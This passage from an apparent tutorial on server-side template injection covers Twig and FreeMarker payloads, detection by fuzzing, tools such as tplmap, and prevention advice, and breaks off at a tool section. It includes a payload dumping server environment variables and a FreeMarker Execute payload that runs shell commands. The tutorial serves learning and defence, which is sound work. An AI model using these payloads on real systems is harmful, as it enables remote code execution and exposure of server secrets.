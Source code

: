 **Result:**

```
Hello 49
```

**More advanced payload:**

```twig
{{ dump(app.request.server.all) }}
```

Can reveal server variables and environment settings.

---

### 🟦 3. **Java (Thymeleaf or FreeMarker)**

In Java, the template engines are more strict, but misconfigurations still open up for injections.

**FreeMarker payload:**

```freemarker
${7*7}
```

**Advanced (if sandboxing is off):**

```freemarker
${"freemarker.template.utility.Execute"?new()("id")}
```

---

## 🔧 Detection Tips

- Use fuzzing: inject `{{7*7}}`, `${7*7}`, etc., and observe if output is evaluated.
- Try known template syntax per engine.
- Use tools like **Burp Suite**, **FFUF**, or **tplmap** (Python tool for SSTI detection and exploitation).
    

---

## 🔒 How to Prevent SSTI

- **Never pass unsanitized user input into templates**
- Use whitelists and strong input validation
- Use template engine sandboxing where possible
- Consider escaping template expressions if you must print user input (e.g., `{{ name | escape }}`)
    

---

## 🧪 Bonus: Tool Example

**Tplmap** – a CLI tool to detect and exploit SSTI:
